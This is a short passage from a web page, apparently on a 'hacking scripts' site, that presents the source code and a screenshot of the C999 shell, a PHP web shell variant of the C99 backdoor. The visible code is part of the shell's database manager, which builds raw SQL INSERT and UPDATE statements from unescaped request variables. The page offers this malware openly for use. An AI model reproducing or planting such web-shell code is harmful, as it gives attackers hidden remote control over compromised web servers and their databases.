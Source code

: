  $sql_query = "INSERT INTO `".$sql_tbl."` ( ".$keys." ) VALUES ( ".$values." );";
 $sql_act = "query";
 $sql_tbl_act = "browse";
 }
 elseif ($sql_tbl_insert_radio == 2)
 {
 $set = mysql_buildwhere($sql_tbl_insert,", ",$sql_tbl_insert_functs);
 $sql_query = "UPDATE `".$sql_tbl."` SET ".$set." WHERE ".$sql_tbl_insert_q." LIMIT 1;";
 $result = mysql_query($sql_query)
?&gt;
</pre>

## C999 shell Screenshot<figure id="attachment_323" style="width: 604px;" class="wp-caption aligncenter">

[<img src="http://hackingscripts.com/wp/wp-content/uploads/2014/01/c999-1024x511.png" alt="C999 shell script screenshot" width="604" height="301" class="size-large wp-image-323" />][2]<figcaption class="wp-caption-text">C999 shell script screenshot</figcaption></figure>

 [1]: http://hackingscripts.com/c99-shell/ "C99 Shell"
 [2]: http://hackingscripts.com/wp/wp-content/uploads/2014/01/c999.png